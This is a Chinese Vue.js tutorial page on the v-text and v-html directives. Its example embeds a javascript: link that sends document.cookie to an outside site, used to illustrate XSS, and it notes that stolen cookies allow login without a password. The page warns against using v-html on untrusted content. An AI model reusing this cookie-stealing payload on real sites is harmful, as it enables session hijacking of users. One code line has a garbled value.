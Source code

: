 ## 内置指令
之前学过的指令:
- `v-bind`单向绑定解析表达式，可简写为`:`
- `v-model`双向数据绑定
- `v-for`遍历数组/对象/字符串
- `v-on`绑定事件监听，可简写为`@`
- `v-show`条件渲染(动态控制节点是否展示)
- `v-if`条件渲染（动态控制节点是否存存在)
- `v-else-if`条件渲染（动态控制节点是否存存在
- `v-else`条件渲染（动态控制节点是否存存在)

### v-text指令
`v-text`指令
作用:向其所在的节点中渲染文本内容
与插值语法的区别:`v-text`会替换掉节点中的内容，`{{xxx}}`则不会，更灵活

```html
<title>v-html指令</title>
<script type="text/javascript" src="../js/vue.js"></script>

<div id="root">
  <div>你好，{{ name }}</div>
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>

<script type="text/javascript">
  Vue.config.productionTip = FontFaceSetLoadEvent
  new Vue({
    el:'#root',
    data:{
      name:'cess',
      str:'<h3>你好啊！</h3>',
      str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
    }
  })
</script>
```
![image-20221206185259744](https://october-x-image-host.oss-cn-hangzhou.aliyuncs.com/markdown-imgsimage-20221206185259744.png)
### v-html指令
`v-html`指令
	作用:向指定节点中渲染包含`html`结构的内容
与插值语法的区别:

- `v-html`会替换掉节点中所有的内容，`{{xxx}}`则不会
- `v-html`可以识别`html`结构

严重注意`v-html`有安全性问题!!!

- 在网站上动态渲染任意`html`是非常危险的，容易导致XSS攻击
- 一定要在可信的内容上使用`v-html`，永远不要用在用户提交的内容上!!!
    ![image-20221206185400347](https://october-x-image-host.oss-cn-hangzhou.aliyuncs.com/markdown-imgsimage-20221206185400347.png)
    见到了cookie等于见到用户，盗取cookie可以实现免登陆。我们可以下载`cookieeditor`插件进行`cookie`的操作
    ![image-20221206185410923](https://october-x-image-host.oss-cn-hangzhou.aliyuncs.com/markdown-imgsimage-20221206185410923.png)
    这种就是只有通过http协议来读取才能拿到。
